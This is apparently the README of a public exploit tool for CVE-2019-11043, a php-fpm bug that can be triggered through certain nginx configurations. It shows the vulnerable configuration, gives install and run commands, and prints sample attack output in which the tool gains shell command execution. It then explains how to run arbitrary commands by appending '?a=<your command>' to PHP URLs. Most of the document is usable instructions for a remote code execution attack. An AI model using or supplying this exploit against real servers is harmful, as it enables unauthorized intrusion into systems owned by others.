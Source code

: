 # PHuiP-FPizdaM

## What's this

This is an exploit for a bug in php-fpm (CVE-2019-11043). In certain nginx + php-fpm configurations, the bug is possible to trigger from the outside. That means that a web user may get code execution if you have vulnerable config (see below).

## What's vulnerable

If you have a site using nginx + php-fpm and nginx have a configuration like

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

which also lucks any script existence checks then you can probably hack it with this sploit.

## Isn't this known to be vulnerable for years?

Back in the ages, php-fpm didn't restrict the extensions of the scripts, meaning that something like `/avatar.png/some-fake-shit.php` could execute `avatar.png` as a PHP script. This issue was fixed long ago.

This one doesn't require file upload, works in most recent versions (until the fix has landed) and, most importantly, the exploit is much cooler.

## How to run

Install it using
```
go install github.com/neex/phuip-fpizdam
```

and try to run using `phuip-fpizdam [url]`. Good output looks like this:

```
2019/10/01 02:46:15 Base status code is 200
2019/10/01 02:46:15 Status code 500 for qsl=1745, adding as a candidate
2019/10/01 02:46:15 The target is probably vulnerable. Possible QSLs: [1735 1740 1745]
2019/10/01 02:46:16 Attack params found: --qsl 1735 --pisos 126 --skip-detect
2019/10/01 02:46:16 Trying to set "session.auto_start=0"...
2019/10/01 02:46:16 Detect() returned attack params: --qsl 1735 --pisos 126 --skip-detect <-- REMEMBER THIS
2019/10/01 02:46:16 Performing attack using php.ini settings...
2019/10/01 02:46:40 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/01 02:46:40 Trying to cleanup /tmp/a...
2019/10/01 02:46:40 Done!
```

After this, you can start appending `?a=<your command>` to all PHP scripts (you may need multiple retries).

## Credits

Original anomaly discovered by (d90pwn)[https://github.com/d90pwn] during Real World CTF. Root clause found by me (Emil Lerner) as well as the way to set php.ini options. Final php.ini options set is found by (beched)[mailto:beched@deteact.com].
